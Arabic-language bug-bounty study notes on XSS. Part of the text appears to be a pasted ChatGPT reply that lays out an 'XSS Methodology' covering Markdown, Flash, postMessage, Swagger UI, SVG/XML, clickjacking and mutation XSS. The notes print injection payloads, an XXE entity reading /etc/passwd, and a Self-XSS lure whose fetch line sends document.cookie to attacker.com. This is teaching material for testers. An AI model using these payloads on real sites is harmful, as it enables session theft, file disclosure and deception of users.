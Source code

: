 
#### شرحها علشان تفهمها :  
- [[شرح الخطوه Markdown XSS]]
- [[شرح فديوهات لل الخطوة Markdown XSS]]
#### 📌 **الوصف**:  
لو الموقع بيسمح بكتابة Markdown (زي GitHub أو بعض المنتديات)، بعض المحركات ممكن تسمح بتضمين HTML أو JavaScript.

### طرق الاستغلال :
- ء 
	- [[سيناريوهات اللي هستخدمها في الخطوه  Markdown XSS#أ. حقن باستخدام وسوم HTML]]
	- [[سيناريوهات اللي هستخدمها في الخطوه  Markdown XSS#ب. حقن باستخدام روابط JavaScript]]
	-  [[سيناريوهات اللي هستخدمها في الخطوه  Markdown XSS#ج. حقن باستخدام وسوم صور أو أحداث]]
	-  [[سيناريوهات اللي هستخدمها في الخطوه  Markdown XSS#د. حقن باستخدام صيغ Markdown للصور]]
	-  [[سيناريوهات اللي هستخدمها في الخطوه  Markdown XSS#هـ. حقن مع التعتيم]]
	-  [[سيناريوهات اللي هستخدمها في الخطوه  Markdown XSS#زـ. نوع جديد من الحقن]]


#### 📍 **أمثلة**:

```md
[Click Me](javascript:alert(1))
<img src="x" onerror="alert(1)">
```



### البايلود اللي تستخدمها :


![[Markdown-Formatted Payloads.txt]]




#### 📌 **معلومة**:  
معظم Markdown engines بتفلتر الـ JS، لكن بعضهم لا، خاصة لو misconfigured.












ممتاز جدًا 👏🔥  
إنت كده شغال على مستوى محترف، وعلشان كده هنطوّر مع بعض **XSS Methodology v4.0**، ونضيف كل المواضيع الجديدة اللي ذكرتها، **بشكل منظم جوه المنهجية**، بحيث تبقى معاك أداة متكاملة لأي اختبار اختراق أو Bug Bounty.

---

# 🚀 XSS Methodology v4.0

### _بما يشمل_: AngularJS، Flash، DOM PostMessage، Swagger UI، Markdown، SVG/XML، UI Redressing، Self XSS

---

## 🧭 الأقسام الأساسية من v3.0

- ✅ 1-11: [موجودة بالفعل ومشروحة بالتفصيل في الرد السابق](https://chatgpt.com/c/685b1ede-8ae8-8008-8ca6-2fd3a61c905f#)
    
- الآن نضيف **القسم 12: Special XSS Vectors** ✨
    

---

## ✅ 12. Special Vectors & Exploitation Paths 🔬

### 🟨 12.1. AngularJS-based XSS

---

### 🟥 12.2. Flash-based XSS (SWF XSS)

📌 **الوصف**:  
بعض ملفات Flash `.swf` القديمة بيكون فيها ثغرات بتسمح بحقن JavaScript لو كانت فيها وظائف زي `ExternalInterface.call()`.

📍 **الاستغلال**:

- ملفات Flash المضروبة ممكن تسرّب كود:
    

```html
<object data="vulnerable.swf?js=alert(1)" ...>
```

📌 **أدوات**:

- `swfscan`, `swfmill`, أو تحليل بـ Burp
    

---

### 🟩 12.3. DOM PostMessage-based XSS

📌 **الوصف**:  
لو الموقع بيستخدم `window.postMessage()` وبيستقبل بيانات بدون تحقق، ممكن تتنفذ أوامر.

📍 **الاستغلال**:

```js
window.postMessage('<img src=x onerror=alert(1)>', '*');
```

📌 **التحقق**:

- راقب استجابات `message` event في DevTools.
    
- لو استُخدم مع `innerHTML` بدون تحقق → خطر.
    

---

### 🟦 12.4. Swagger-UI XSS

📌 **الوصف**:  
واجهة `Swagger-UI` (اللي بتعرض API docs) ممكن تكون قابلة لحقن XSS لو كان الـ API description أو request examples فيها HTML/JS بدون فلترة.

📍 **أماكن الحقن**:

- `description`
    
- `example` responses
    

📍 **الاستغلال**:

```json
"example": {
  "payload": "<img src=x onerror=alert(1)>"
}
```

---

---

### ⚪ 12.6. Self XSS

📌 **الوصف**:  
نوع من XSS بيتطلب من المستخدم إنه بنفسه يحط الكود في DevTools أو console.

📍 **الاستخدام في البج باونتي؟**  
لا يعتبر ثغرة مباشرة، لكن ممكن يتربط مع:

- Insecure CORS
    
- CSRF token leaks
    
- Session hijacking
    

📍 **مثال خداعي**:

> “انسخ الكود ده في console علشان تكسب جوهرة 👇”

```js
fetch('http://attacker.com?cookie='+document.cookie)
```

---

### 🔶 12.7. SVG & XML Payloads

📌 **الوصف**:  
SVG و XML ممكن يحتوي عناصر قابلة للتنفيذ مثل `<script>`, `<foreignObject>`, أو حتى أحداث JS زي `onload`.

📍 **أمثلة SVG XSS**:

```xml
<svg/onload=alert(1)>
```

📍 **داخل XML ملفات**:

```xml
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<root>&xxe;</root>
```

> بعض الثغرات دي تبقى **XXE** أكتر منها XSS، بس مربوطة بـ XML rendering.

---

### 🟧 12.8. UI Redressing (Clickjacking + XSS)

📌 **الوصف**:  
لو الموقع عنده صفحة XSS داخل iframe، تقدر تغطي الزرار الحقيقي بعنصر وهمي وتخلي المستخدم ينفذ حاجة خطيرة.

📍 **مثال استغلال**:

```html
<iframe src="https://victim.com/xss-page" style="opacity:0;position:absolute;top:0;left:0;"></iframe>
<button style="position:absolute;top:0;left:0;">Click Here!</button>
```

📌 **الحل من عندهم؟**  
لازم يستخدموا `X-Frame-Options: DENY`

---

### 🟨 12.9. Extra Bonus – Mutation XSS

📌 **الوصف**:  
بعض الـ WYSIWYG editors (زي CKEditor أو TinyMCE) بيعدّلوا المحتوى بطريقة بتخلق XSS أثناء التعديل.

📍 **مثال**:

```html
<a href="javascript:alert(1)">Click</a>
```

لكن الأداة تحوله لـ:

```html
<a href data-href="javascript:alert(1)">Click</a>
```

---

## ✅ هل تحب ألخصهم لك في جدول PDF أو Markdown؟

لو حابب كمان أعملك:

- نسخة بصيغة Markdown ترفعها على **Obsidian أو GitHub**
    
- أو نسخة PDF لعرضها في أي عرض تقديمي
    
- أو قالب جاهز تحطه في **Burp Notes Template**
    

قولي، وأنا أعملها فورًا لك.  
ولو عندك أي مواضيع تانية ذاكرتها أو عايز تضيفها، ابعتها وهنطوّر المنهجية أكتر. 💪